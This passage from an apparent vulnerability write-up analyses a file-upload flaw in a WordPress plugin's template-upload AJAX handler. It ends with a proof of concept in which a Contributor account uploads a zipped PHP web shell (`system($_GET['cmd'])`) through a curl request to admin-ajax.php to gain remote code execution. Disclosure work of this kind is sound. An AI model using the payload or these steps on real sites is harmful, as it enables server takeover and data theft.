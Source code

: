 > [!INFO]
> Here the file is not extracted directly (i.e., not allowing Zip Slip to place files outside target), so Zip Slip techniques to move files to higher directories are not applicable.
>
> The final files are saved under `{wp_upload_dir}/rometheme_template/{hashId}/`

6. Returns JSON

---

`rtm_handle_upload_template()` is registered as the callback for the action hook:

```php
add_action('wp_ajax_rtm_handle_upload_template', [$this, 'rtm_handle_upload_template']);
```

Meaning: When a user sends an AJAX request to `wp-admin/admin-ajax.php` with `action=rtm_handle_upload_template`, the `rtm_handle_upload_template()` function is called to handle the request.

### Flow

{{< mermaid >}}
graph LR;
A[POST REQUEST /wp-admin/admin-ajax.php?action=rtm_handle_upload_template] --> B["rtm_handle_upload_template()"]
B --> C{is .zip extension}
C -->|True| D{"check_ajax_referer()"}
C -->|False| E["wp_send_json_error()"]
D -->|True| F["template_extract()"]
D -->|False| G[Return 401]
F -->|Extract To| H["{wp_upload_dir}/rometheme_template/{hashId}/"]
{{< /mermaid >}}

## Exploit

### Proof of Concept (PoC)

1. Log in with a **Contributor** account
2. Create a post and edit it using **Elementor**
3. Retrieve `rkit_libs.template_nonce` to get the nonce
4. Create a file for RCE

```php
<?php system($_GET['cmd']) ?>
```

5. Zip the created file

```zsh
zip rce.zip rce.php
```

6. Send the upload request

```zsh
curl -X POST "http://localhost/wp-admin/admin-ajax.php" \
  -b "your_cookie" \
  -F "action=rtm_handle_upload_template" \
  -F "nonce=your_nonce" \
  -F "file=@rce.zip;filename=rce.zip;type=application/zip"
```
